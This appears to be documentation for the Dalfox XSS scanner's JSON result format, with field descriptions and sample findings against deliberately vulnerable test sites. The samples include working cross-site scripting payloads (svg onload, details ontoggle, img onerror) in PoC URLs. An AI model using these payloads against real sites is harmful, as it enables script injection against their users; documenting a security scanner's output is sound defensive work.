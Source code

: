 ```yaml
---
title: Result JSON Format
permalink: /docs/json/
---
```


## Scan Result
```json
{
 "logs": null,
 "pocs": [
  {
   "type": "R",
   "inject_type": "inHTML-none(1)-URL",
   "poc_type": "plain",
   "method": "GET",
   "data": "https://xss-game.appspot.com/level1/frame?query=%3Cxmp%3E%3Cp+title%3D%22%3C%2Fxmp%3E%3Csvg%2Fonload%3Dprint%281%29%3E",
   "param": "query",
   "payload": "\u003cxmp\u003e\u003cp title=\"\u003c/xmp\u003e\u003csvg/onload=print(1)\u003e",
   "evidence": "13 line:  s were found for \u003cb\u003e\u003cxmp\u003e\u003cp title=\"\u003c/xmp\u003e\u003csvg/onload=print(1)\u003e\u003c/b\u003e. \u003ca href='?'\u003e",
   "cwe": "CWE-79",
   "severity": "Medium"
  },
  {
   "type": "V",
   "inject_type": "inHTML-none(1)-URL",
   "poc_type": "plain",
   "method": "GET",
   "data": "https://xss-game.appspot.com/level1/frame?query=%3CdETAILS%250aopen%250aonToGgle%250a%3D%250aa%3Dprompt%2Ca%28%29+class%3Ddalfox%3E",
   "param": "query",
   "payload": "\u003cdETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() class=dalfox\u003e",
   "evidence": "13 line:  s were found for \u003cb\u003e\u003cdETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() class=dalfox\u003e\u003c",
   "cwe": "CWE-79",
   "severity": "High"
  }
 ],
 "params": [
  {
   "Name": "query",
   "Type": "URL",
   "Reflected": true,
   "ReflectedPoint": "/inHTML-none(1)",
   "ReflectedCode": "13 line:  Sorry, no results were found for \u003cb\u003eDalFox\u003c/b\u003e. \u003ca href='?'\u003eTry again",
   "Chars": [
    "\u003e",
    "-",
    "\u003c",
    "\"",
    "[",
    ",",
    "\\",
    "]",
    "(",
    "$",
    ":",
    ";",
    "{",
    "`",
    "'",
    "}",
    ")",
    "+",
    "=",
    "|",
    "."
   ]
  }
 ],
 "duration": 6254560167,
 "start_time": "2022-09-16T13:24:02.693407+09:00",
 "end_time": "2022-09-16T13:24:08.947901+09:00"
}
```

## PoC
```json
{
      "type":"Type of PoC (G/R/V)",
      "inject_type":"Injected Point",
      "poc_type":"plain/curl/httpie/etc...",
      "method":"HTTP Method",
      "data":"PoC URL",
      "param":"Parameter",
      "payload":"Attack Value",
      "evidence":"Evidence with response body",
      "cwe":"CWE ID",
      "severity": "Severity (Low/Medium/High)"
   }
```

| Key         | Description                 | List                                                         |
| ----------- | --------------------------- | ------------------------------------------------------------ |
| type        | Type                        | - G (Grep)<br />- R (Reflected)<br />- V (Verified)          |
| inject_type | Injected point              | - inHTML-none (Injected in HTML area)<br />- inJS-none (Injected in Javascript area)<br />- inJS-double (Injected within `"` in Javascript area)<br />- inJS-single (Injected within `'` in Javascript area)<br />- inJS-backtick (Injected within backtic1k in Javascript area)<br />- inATTR-none (Injected within in Tag attribute area)<br />- inATTR-double (Injected within `"` in Tag attribute area)<br />- inATTR-single (Injected within `'` in Tag attribute area) |
| poc_type    | Type of poc code            | - plain (URL)<br />- curl (Curl command)<br />- httpie (HTTPie command) |
| method      | HTTP Method                 | - GET/POST/PUT/DELETE, etc...                                |
| data        | PoC (URL)                   | - PoC URL                                                    |
| param       | Parameter name              | - Weak parameter name                                        |
| payload     | Parameter value             | - Attack code in value                                       |
| evidence    | Evidence with response body | - Simple codeview of where it's injected in response body.   |
| cwe         | CWE ID                      | - Mapping CWE ID                                             |
| severity    | Severity                    | - Severity (Low/Medium/High)                                 |

```json
{
    "type": "V",
    "inject_type": "inHTML-URL",
    "poc_type": "plain",
    "method": "GET",
    "data": "http://testphp.vulnweb.com/listproducts.php?cat=%27%22%3E%3Cimg%2Fsrc%2Fonerror%3D.1%7Calert%60%60+class%3Ddalfox%3E",
    "param": "cat",
    "payload": "'\"><img/src/onerror=.1|alert`` class=dalfox>",
    "evidence": "48 line:  syntax to use near ''\"><img/src/onerror=.1|alert`` class=dalfox>' at line 1",
    "cwe": "CWE-79",
    "severity": "High"
}
```
